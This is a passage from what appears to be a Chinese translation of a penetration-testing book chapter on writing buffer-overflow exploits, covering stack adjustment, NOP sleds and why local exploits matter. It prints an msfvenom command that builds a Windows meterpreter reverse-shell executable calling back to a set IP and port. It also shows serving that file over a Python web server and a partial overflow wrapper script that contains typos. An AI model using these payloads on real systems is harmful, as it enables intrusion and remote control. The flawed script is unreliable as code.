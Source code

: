 然而，这种方法存在一个问题。如果堆栈调整中有坏字符，则需要通过编码来消除这些字符。由于您通常不会在以后修改堆栈调整，因此可以将其作为 shell 的一部分，并对整个代码块进行编码。我们将在反转 Metasploit 模块时完成该过程。

### 提示

确保在代码中添加有关堆栈调整的注释；否则，当您尝试扩展此漏洞或使用其他有效负载时，您将非常沮丧。

作为一个附带的好处，如果我们使用这种方法而不是使用 NOP 滑橇，那么 HIPS 就不太可能捕获该漏洞。现在，我们已经完成了所有这些，认识到有一种更简单的方法可以使用标准负载获得访问权限。

### 提示

如果您仍然需要 NOP 进行真正的攻击，请确保使用 Metasploit 提供的 NOP 生成器。代码不使用“\x90”指令，而是执行无意义的数学运算。它们占用堆栈上的空间并提供相同的功能。

# 了解本地开发的目的

需要注意的是通过在系统上执行有效负载可以实现相同的访问。生成这样的有效载荷只需要我们运行以下命令：

```
msfvenom -p windows/meterpreter/reverse_nonx_tcp lhost=192.168.195.169 lport=443 -b '\x00' -f exe -o /tmp/exploit.exe

```

然后，使用以下命令启动 Python web 服务器：

```
python -m SimpleHTTPServer

```

下图突出显示了相关命令的输出：

![Understanding the purpose of local exploits](graphics/B04315_08_40.jpg)

然后，通过系统上的浏览器下载并执行有效负载，以获得所需的结果。

![Understanding the purpose of local exploits](graphics/B04315_08_41.jpg)

所以你可能会问自己，为什么我们要创造这个漏洞呢？如果我们刚刚创建此漏洞利用的软件是以管理员身份运行的，而不是以我们登录的用户身份运行的，那么利用此解决方案将更加有用。虽然这种情况不太可能发生，但该计划的性质是不可能的。因此，为利用此漏洞生成 Metasploit 模块不是很有用。考虑一下，这个练习是一个很好的机会来写你的第一个漏洞。

在编写漏洞攻击时，还有一个考虑因素，那就是根据您的漏洞攻击可能不可靠的程序而定。这意味着，由于代码的细微差别，您的漏洞利用可能会持续工作，也可能不会持续工作。因此，在实际组织中执行之前，您必须在实验室环境中进行实质性测试。

# 了解其他利用漏洞脚本

除了编写可以上传到程序中的恶意文件外，您可能还必须生成代码，通过接受参数、TCP 服务甚至 UDP 服务的独立程序与服务进行交互。考虑一下我们刚才开发的程序，如果它在本质上是不同的，我们仍然可以利用它，只是脚本与它交互的方式会有所不同。下面的三个示例显示了如果代码满足这些标准中的任何一个，它将是什么样子。当然，内存地址和大小必须根据您可能遇到的其他程序进行调整。

## 通过执行脚本利用独立二进制文件

我们甚至可以创建 Python 脚本来包装传递了参数的程序。通过这种方式，您可以使用包装器脚本构建漏洞利用，该脚本将注入代码，如下所示：

```
import subprocess, strut
program_name = 'C:\exploit_writing\vulnerable.exe'
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
shell =() #Code to insert
remaining space
exploit = fill + eip + offset + shell
subprocess.call([program_name, exploit])
```
